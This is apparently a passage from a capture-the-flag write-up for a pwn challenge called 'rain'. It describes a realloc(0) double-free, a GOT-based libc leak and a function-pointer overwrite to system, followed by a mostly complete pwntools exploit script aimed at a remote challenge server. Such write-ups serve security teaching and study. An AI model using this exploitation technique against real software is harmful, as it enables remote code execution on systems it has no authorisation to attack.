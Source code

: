 ```python

p.interactive()
```

# rain

The vulnerability is that the size is not controlled during realloc, and `realloc(0)` can be constructed to achieve free;

1. First create a chunk with the same size as the structure, then `realloc(0)` twice to achieve double free, and through `rain()+config()`, you can control the structure;
2. There is a table that stores uppercase letters in the structure, change its address to the address of the GOT table, and then `PrintInfo()` to leak libc;
3. Finally, change the `PrintInfo()` function pointer in the structure to `system`, and rewrite the beginning of the structure to `sh\x00` to get the shell

```python
from pwn import *

#context.log_level = 'debug'

p = remote('124.222.151.145','10002')
elf = ELF('./sample')
libc = ELF('./libc.so.6')


def config(frame):
    p.recvuntil('ch> ')
    p.sendline(str(1))
    p.recvuntil('FRAME> ')
    p.send(frame)

def PrintInfo():
    p.recvuntil('ch> ')
    p.sendline(str(2))

def rain():
    p.recvuntil('ch> ')
    p.sendline(str(3))


frame = p32(0x20)+p32(0x20)+p8(2)+p8(1)+p32(100)+p32(40000)+'B'*0x40
config(frame)
frame = p32(0x20)+p32(0x20)+p8(2)+p8(1)+p32(0)+p32(40000)
config(frame)
frame = p32(0x20)+p32(0x20)+p8(2)+p8(1)+p32(0)+p32(40000)
config(frame)
rain()
frame = p32(0x20)+p32(0x20)+p8(2)+p8(1)+p32(1)+p32(40000)
frame+= p32(0)+p32(0x40)+p8(2)+p8(1)+'P'*0x6+p64(0)+p64(0)+p32(1)+p32(40000)+p64(0x400E17)+p64(elf.got['atoi'])+p64(0xdeadbeef)
config(frame)
PrintInfo()
p.recvuntil('Table:            ')
libc_base = u64(p.recv(6)+b'\x00\x00')-libc.sym['atoi']
system = libc_base + libc.sym['system']
p.info('libc_base: '+hex(libc_base))
p.info('system: '+hex(system))
frame = p32(0x20)+p32(0x20)+p8(2)+p8(1)+p32(1)+p32(40000)
config(frame)
frame = p32(0x20)+p32(0x20)+p8(2)+p8(1)+p32(1)+p32(40000)
frame+= p32(0x6873)+p32(0x20)+p8(2)+p8(1)+'P'*0x6+p64(0)+p64(0)+p32(1)+p32(40000)+p64(system)+p64(0xdeadbeef)+p64(0xdeadbeef)
```